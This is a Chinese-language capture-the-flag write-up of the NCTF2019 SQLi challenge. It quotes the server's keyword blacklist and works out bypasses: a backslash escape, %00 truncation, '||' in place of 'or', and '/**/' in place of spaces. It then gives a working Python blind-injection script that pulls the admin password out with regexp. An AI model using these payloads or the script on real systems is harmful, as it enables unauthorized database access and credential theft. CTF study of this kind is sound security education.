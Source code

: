 # \[NCTF2019]SQLi

## \[NCTF2019]SQLi

## 考点

* PHP版本小于5.3存在%00截断
* regexp进行盲注

## wp

直接给了提示

![](.gitbook/assets/image\_sfYfyc8b6nSC7hNBpnQ9we.png)

用户名输入`admin' or 1=1 #`会提示`hacker`

![](.gitbook/assets/image\_aTeFgtrh9rxPGfq913aP7U.png)

发现只要存在`'`就会弹出hacker，再看一下给的语句，如果过滤了`'`，那可以用的方式就剩下转义，但是转义之后无法把最后面的单引号取掉

```python
select * from users where username='' and passwd=''
```

一时没有头绪。试了一下/robots.txt，提示访问/hint.txt

```python
$black_list = "/limit|by|substr|mid|,|admin|benchmark|like|or|char|union|substring|select|greatest|%00|\'|=| |in|<|>|-|\.|\(\)|#|and|if|database|users|where|table|concat|insert|join|having|sleep/i";

If $_POST['passwd'] === admin's password,

Then you will get the flag;
```

基本上全过滤了，还剩下`\`,`regexp`,`/**/`和`&^|`

在返回包中可以看到PHP版本为5.2，在版本小于5.3是可以进行字符串截断的，再用`;`就可以进行语句闭合

```python
select * from users where username='\' and passwd=';%00'
```

前半句查询username肯定是空，接着就要看怎么构造payload了。虽然过滤了or，但是可以用`||`替代

```python
select * from users where username='\' and passwd='||1;%00'
```

![](.gitbook/assets/image\_iiKK5H3SSVyENVqTy4uuMq.png)

最后payload应该是这样子

```python
username=\&passwd=||(select/**/passwd/**/regexp/**/"^a");%00
```

但是过滤了select，最终payload

```python
username=\&passwd=||(passwd/**/regexp/**/"^y");%00
```

![](.gitbook/assets/image\_uR9gVsK8RJHuT4HcsLxDcp.png)

exp

```python
import requests
from urllib.parse import unquote
import string

url = 'http://011634d2-f820-4831-b422-832c2e0bf99f.node4.buuoj.cn:81/' 


cookies = {
    'UM_distinctid': '17e150f6a59ecb-028dcf28d64a708-4c3e2679-384000-17e150f6a5a90d',
}

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:93.0) Gecko/20100101 Firefox/93.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://011634d2-f820-4831-b422-832c2e0bf99f.node4.buuoj.cn:81',
    'Connection': 'keep-alive',
    'Referer': 'http://011634d2-f820-4831-b422-832c2e0bf99f.node4.buuoj.cn:81/',
    'Upgrade-Insecure-Requests': '1',
}
table = string.ascii_letters + string.digits + '_{}'
flag = ''
for j in range(50):
    for i in table:
        data = {
            'username': '\\',
            'passwd': f'||(passwd/**/regexp/**/"^{flag+i}");'+unquote('%00')
        }
        response = requests.post(url, headers=headers, cookies=cookies, data=data)
        
        if '404 Not Found' in response.text:
            flag = flag + i
            break
        else:
            continue
    print(flag)
```

结果是`yoU_Will_neVer_knoW7788990`，再全转成小写`you_will_never_know7788990`

![](.gitbook/assets/image\_d85KV9HrnSr64Yoe4nRkS9.png)

flag条件是输入的password和数据库中的相同，在提示中写了

```python
$_POST['passwd'] === admin's password
```

![](.gitbook/assets/image\_b8uTnXzfo6qzZYwzx6saov.png)

## 小结

1. 反斜杠结合PHP的%00截断bypass对`'`的过滤
2. `||`绕过or
3. `/**/`绕过空格
4. regex进行盲注
